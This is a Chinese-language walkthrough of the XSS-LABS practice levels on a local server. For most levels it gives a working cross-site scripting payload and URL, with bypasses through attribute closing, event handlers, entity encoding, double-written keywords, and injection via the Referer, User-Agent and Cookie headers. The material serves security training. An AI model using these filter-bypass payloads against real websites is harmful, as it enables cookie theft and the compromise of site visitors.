

# XSS-LABS

## [1]

- 闭合\<h2\>标签，然后写入新的dom。

```shell
# payload
pettter</h2>

# url
http://localhost:1996/level1.php?name=pettter</h2>
```


## [2]

- 双引号闭合input的value，构造新的dom。

```shell
# payload
pettter"><script>alert('xss')</script><"

# url
http://localhost:1996/level2.php?keyword=pettter"><script>alert('xss')</script><"&submit=搜索
```


## [3]

- 单引号未过滤，添加自动获取焦点属性，设置获得焦点事件。

```shell
# payload
pettter' autofocus onfocus='alert(`xss`)'

# url
http://localhost:1996/level3.php?keyword=pettter'+autofocus+onfocus='alert(`xss`)'&submit=搜索
```


## [4]

- 双引号未过滤。

```shell
# payload
pettter" autofocus onfocus="alert(`xss`)"

# url
http://localhost:1996/level4.php?keyword=pettter"+autofocus+onfocus="alert(`xss`)"&submit=搜索
```


## [5]

- 可双引号闭合，on会被替换成o_n，ri会被替换成r_i。

```shell
# payload
pettter"><iframe src="javascript:alert(document.cookie)"></iframe><iframe+src="javascript:alert(document.cookie)"></iframe><SCRIPT>alert(`xss`)</SCRIPT>

# url
http://localhost:1996/level6.php?keyword="><SCRIPT>alert(`xss`)</SCRIPT>&submit=搜索
```


## [7]

- 替换script为空，但只替换一次，所以双写绕过。

```shell
# payload
"><scrscriptipt>alert(`xss`)</scrscriptipt>

# url
http://localhost:1996/level7.php?keyword="><scrscriptipt>alert(`xss`)</scrscriptipt>&submit=搜索
```


## [8]

- 本关检测‘javascript’字符串，将ri替换为r_i，但会将实体编码解析为字符集，所以只需保证不在payload中出现'javascript'即可。

```shell
# 实体编码在线字典
https://www.obkb.com/dcljr/charstxt.html

# 备注
&#x70;
&#112;
以上两个实体编码在html中都为p

# payload 二选一
javascri&#x70;t:alert(`xss`)
javascri&#112;t:alert(`xss`)

# url
http://localhost:1996/level8.php?keyword=javascri&#x70;t:alert(`xss`)&submit=添加友情链接
```


## [9]

- 此关与上一关一样，但检测url中必须包含'http://'，所以在payload中加入注释掉的'http://'。

```shell
# payload
javasc&#114;ipt:alert() //http://

# url
http://localhost:1996/level9.php?keyword=javasc&#114;ipt:alert()+//http://&submit=添加友情链接
```


## [10]

- 查看源代码，发现有隐藏的input，删除type="hidden"可显示input。


- 发现无提交按钮，则自己造一个。

```
<input type="submit" name="" value="提交">
```


- 传值测试。


- 得到与后端通信的url格式。

```
http://localhost:1996/level10.php?t_link=1&t_history=2&t_sort=3
```


- 发现get传参能控制**name为t_sort的input的value属性**


- 通过url构造payload使后端返回可显示可点击的input

```shell
# payload
?t_sort=屠龙宝刀点击就送！"type="text"onclick="alert()

# url
http://localhost:1996/level10.php?t_sort=屠龙宝刀点击就送！"type="text"onclick="alert()
```


## [11]

- 查看源代码，发现有隐藏的四个input，测试得知前两个无返回，第三个过滤了双引号无法闭合。
- t_ref与referer有关。


- 第四个input接收后端返回的referer,但对返回的referer没做任何过滤，所以这是基于referer的XSS，需要BS这类工具，这里用HackBar代替。

```shell
# payload
# 打开HackBar，勾选Referer，填写：
Click me"onclick="alert()"type="button

# 填入如下url 然后点击Execute
http://localhost:1996/level11.php?keyword=test
```


- 点击Execute后，查看源码，input被改变为按钮，并且监听点击



- 点击Click me拿下


## [12]

- 查看源码，这是一个User-agent中的XSS，t_ua这个input会读取User-agent并设置为它的value。


- 测试得知t_ua这个input的属性可双引号闭合

```shell
# payload
# 使用HackBar，勾选User Agent，填写：
Click me"onclick="alert()"type="button

# 填入此url，点Execute
http://localhost:1996/level12.php?keyword=test
```


- 点击Click me拿下


## [13]

- 查看源码，与上一关类似，这关是一个在Cookies中的XSS。


- 查看本页的Cookies，发现一个键user，其值是一个提示。


- 提交一下id为search的form，得到与后端交互的url格式。发现t_cook读取了Cookies，传递给了后端。

```shell
http://localhost:1996/level13.php?t_link=&t_history=&t_sort=&t_cook=call+me+maybe?
```


- 发现后端会将url中的t_cook值，设置为名为t_cook的input的value。


- 现在开始构造payload。

```shell
# payload
Click me" onclick="alert()" type="button

# 设置user的值为payload
user=Click me" onclick="alert()" type="button
```


- 请求url，得到按钮。

```
http://localhost:1996/level13.php
```


- 点击Click me，拿下。


## [14]

- 网站挂了

## [15]

- 右键查看源代码，发现angular框架中的ng-include。它可以在当前页**包含调用(带参)**一个同域文件。

```shell
# ng-include语法
# ng-include 指令作为元素使用:
# <ng-include src="filename" onload="expression" autoscroll="expression" ></ng-include>
```


- 构造payload。

```shell
# payload 上述语法定义ng-include在作为元素使用时，以src变量接收filename
?src='level1.php?name=<a href="javascript:alert()">Click me</a>'

# url
http://localhost:1996/level15.php?src='level1.php?name=<a href="javascript:alert()">Click me</a>'
```


- 点击Click me，拿下。


## [16]

- 发现默认的keyword变量在页面中有回显。


- 测试发现空格和斜杠被实体编码。


- 构造payload，使用hex替代字符集来绕过被实体编码。

```shell
# HTML character codes 在线查询网站：
# https://www.obkb.com/dcljr/charstxt.html 

# %0a %0d 都可以充当空格
# /被转义了，选择一个自闭和标签可以绕过。

# payload
?keyword=<input%0avalue="Click me"%0dtype="button"%0donclick="alert(`xss`)">

# url
http://localhost:1996/level16.php?keyword=<input%0avalue="Click me"%0dtype="button"%0donclick="alert(`xss`)">
```

- 访问上述url，点击Click me，拿下。


## [17]

- 查看源码发现embed标签的src属性无引号，其值在url中获取，所以直接在url中拼接onblur=alert('xss')即可,构造payload如下：

```
http://localhost:1996/level17.php?arg01=a&arg02=b+onblur=alert('xss')
```

- 鼠标点击embed区域，再点击其他区域。


## [18]

- 与上一关一样，查看源码发现embed标签的src属性无引号，其值在url中获取，且格式为arg1=arg2，所以在arg2中以空格为分割拼接onblur=alert('xss')即可，构造payload如下：

```
http://localhost:1996/level18.php?arg01=a&arg02=b+onblur=alert('xss')
```

- 鼠标点击embed区域，再点击其他区域。


## [19]

- flash已淘汰，浏览器无法播放。

## [20]

- flash 已淘汰，浏览器无法播放。
